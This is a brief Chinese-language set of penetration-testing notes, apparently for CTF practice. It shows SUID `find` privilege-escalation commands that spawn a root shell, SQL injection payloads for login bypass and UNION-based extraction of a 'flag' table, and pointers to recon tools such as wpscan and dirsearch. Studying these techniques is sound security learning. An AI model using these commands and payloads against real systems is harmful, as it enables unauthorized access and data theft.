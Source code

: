 ### `find` 提权
find提权的原理在于find命令具有特殊权限
同理，如若其他命令也具有特殊权限，也能实现提权

```zsh
find / -perm -u=s -type f 2>/dev/null


1. find ./ acce -exec '/bin/sh' \;

2. touch bcce
find bcce -exec '/bin/sh' \;
```

### `searchsploit`

```
msfconsole
searchsploit
/usr/share/exploitdb
```

### `SQL` 注入

```
username=a' or 1 #
a' or 1 union select 1,group_concat(flag),3 from flag#            

table_schema=database();                           


admin' or '1'='1' 
union select 1,group_concat(column_name),3 
from information_schema.columns 
where table_name='flag'#
```

### 收集站点信息
[[cewl]]工具会对指定url进行扫描，随后生成字典

### 针对wordpress扫描
[[wpscan]]

### 主机发现
[[arp-scan]]
[[netdiscover]]

### 目录扫描
[[dirsearch]]

